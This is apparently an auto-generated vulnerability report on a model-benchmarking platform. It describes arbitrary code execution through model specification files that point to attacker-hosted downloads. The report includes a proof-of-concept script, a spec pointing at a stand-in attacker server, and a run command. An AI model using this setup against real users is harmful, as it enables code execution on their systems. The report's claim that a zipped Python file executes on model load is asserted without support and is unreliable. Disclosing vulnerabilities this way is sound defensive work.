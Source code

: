 ### Vulnerability List

- Vulnerability Name: **Model Specification Injection leading to Arbitrary Code Execution**
- Description:
    1. An attacker crafts a malicious model specification JSON file.
    2. Within this specification, the attacker provides a download link (`location`) that points to a file hosted on a malicious third-party storage. This file is disguised as a legitimate model file but contains executable code or scripts.
    3. The victim user, intending to benchmark a model, uses this malicious specification file with the benchmarking platform.
    4. The benchmarking platform, as designed, downloads the file from the attacker-controlled URL to the local model cache.
    5. If the attacker bypasses or compromises the MD5 hash check (see mitigation analysis), the benchmarking platform proceeds to process the downloaded file.
    6. During the "processing" phase, which might involve framework-specific loading or initialization of the model, the malicious code embedded in the downloaded file gets executed on the benchmarking system.
- Impact:
    - **Critical**: Arbitrary code execution on the benchmarking system. This can lead to complete system compromise, data theft, installation of malware, or denial of service.
- Vulnerability Rank: **Critical**
- Currently Implemented Mitigations:
    - **MD5 Hash Verification**: The system downloads models based on URLs specified in JSON specifications and verifies the MD5 hash of the downloaded file against the hash provided in the specification. This is intended to ensure model integrity. (Source: `/code/README.md`, `/code/benchmarking/download_benchmarks/download_benchmarks.py`)
- Missing Mitigations:
    - **Input Validation and Sanitization**: Lack of robust validation of model specification files beyond MD5 hash check. The system should validate the structure and content of the specification files to prevent injection of malicious commands or scripts.
    - **Sandboxing or Isolation**: The benchmarking process, especially model loading and processing, is not sandboxed or isolated. This allows any malicious code within a compromised model to directly interact with the system.
    - **Code Review and Security Audits**: Missing regular code reviews and security audits specifically focusing on the model specification handling and download mechanisms.
- Preconditions:
    1. The attacker needs to host a malicious file on a third-party storage that can be accessed via a URL.
    2. The attacker needs to create a malicious model specification JSON file that includes the URL to the malicious file and a corresponding (potentially fake or compromised) MD5 hash.
    3. The victim user must be tricked into using this malicious model specification file, for example, by downloading it from an untrusted source or by social engineering.
- Source Code Analysis:
    1. **`/code/benchmarking/download_benchmarks/download_benchmarks.py`**:
        - `DownloadBenchmarks.downloadFile(self, location, md5)` function is responsible for downloading model files.
        - It checks if a file exists in the local cache and if the provided `md5` matches the cached file's MD5.
        - If the MD5 doesn't match or the file is not in the cache, it proceeds to download the file using `DownloadFile` class.
        - **Vulnerability Point**: While MD5 hash verification is implemented, if an attacker can provide a malicious model file along with its MD5 hash (e.g., by compromising a third-party storage or using a man-in-the-middle attack during hash retrieval if it's also downloaded), the system will trust the file after MD5 verification and proceed with processing, potentially executing malicious code.

    2. **`/code/benchmarking/run_bench.py`, `/code/benchmarking/harness.py`**:
        - These scripts are the main entry points for running benchmarks.
        - `run_bench.py` parses command line arguments and loads configurations.
        - `harness.py` orchestrates the benchmark execution, including model loading and framework interaction.
        - **Vulnerability Point**: These scripts use the downloaded model files as specified in the benchmark JSON. If a malicious model is downloaded due to a compromised specification, these scripts will unknowingly use it, leading to potential code execution during model loading or processing by the ML framework.

    3. **`/code/specifications/models/caffe2/squeezenet/squeezenet.json`** (Example Model Specification):
        ```json
        {
          "model": {
            "category": "CNN",
            "description": "SqueezeNet v1.1",
            "files": {
              "init": {
                "filename": "init_net.pb",
                "location": "https://...",  // Potentially malicious URL
                "md5": "...", // Compromised MD5 hash
              },
              "predict": {
                "filename": "predict_net.pb",
                "location": "https://...",  // Potentially malicious URL
                "md5": "...", // Compromised MD5 hash
              }
            },
            "format": "caffe2",
            "kind": "deployment",
            "name": "squeezenet"
          },
          "tests": [...]
        }
        ```
        - **Vulnerability Point**: The `location` field in the model specification is directly used to download files. There is no validation on the URL itself (e.g., allowed domains, protocols) or the file type being downloaded.

- Security Test Case:
    1. **Setup Malicious Model**: Create a simple Python script `malicious_model.py` that will be hosted as a "model file". This script should contain code to execute a command on the system, for example, creating a file in `/tmp`.
        ```python
        # malicious_model.py
        import os
        os.system('touch /tmp/attack_success.txt')
        print("Malicious code executed!")
        ```
        Zip this script to create `malicious_model.zip`.
    2. **Host Malicious Model**: Host `malicious_model.zip` on a publicly accessible web server (e.g., using a service like Python's `http.server` for testing purposes). Get the URL of this hosted zip file.
    3. **Craft Malicious Specification**: Create a model specification JSON file (e.g., `malicious_spec.json`) that points to the hosted `malicious_model.zip` URL. Generate the MD5 hash of `malicious_model.zip` and include it in the specification.
        ```json
        {
          "model": {
            "category": "Malicious",
            "description": "Malicious Model Specification",
            "files": {
              "predict": {
                "filename": "predict_net.pb",
                "location": "http://<attacker-server>/malicious_model.zip", // Replace with your malicious server URL
                "md5": "<MD5 hash of malicious_model.zip>" // Replace with the actual MD5 hash
              }
            },
            "format": "caffe2",
            "kind": "deployment",
            "name": "malicious_model"
          },
          "tests": [
            {
              "commands": [
                "{program} --net {files.predict} --warmup 1 --iter 1" // Minimal command
              ],
              "identifier": "malicious_test",
              "iter": 1,
              "metric": "delay",
              "warmup": 1
            }
          ]
        }
        ```
    4. **Run Benchmarking with Malicious Specification**: Execute the benchmarking platform using the crafted `malicious_spec.json` file.
        ```bash
        benchmarking/run_bench.py -b malicious_spec.json --model_cache /tmp/model_cache --info '{"treatment": {"programs": {}}}' --framework generic --platform host
        ```
    5. **Verify Exploit**: Check if the file `/tmp/attack_success.txt` has been created on the benchmarking system. If it exists, it confirms that the malicious code from `malicious_model.zip` was executed, demonstrating arbitrary code execution vulnerability. Also, check the output logs for "Malicious code executed!".

This vulnerability allows a remote attacker to achieve arbitrary code execution by providing a maliciously crafted model specification to a user of the benchmarking platform. The lack of proper input validation beyond MD5 hash checking and the absence of sandboxing are key factors contributing to this critical vulnerability.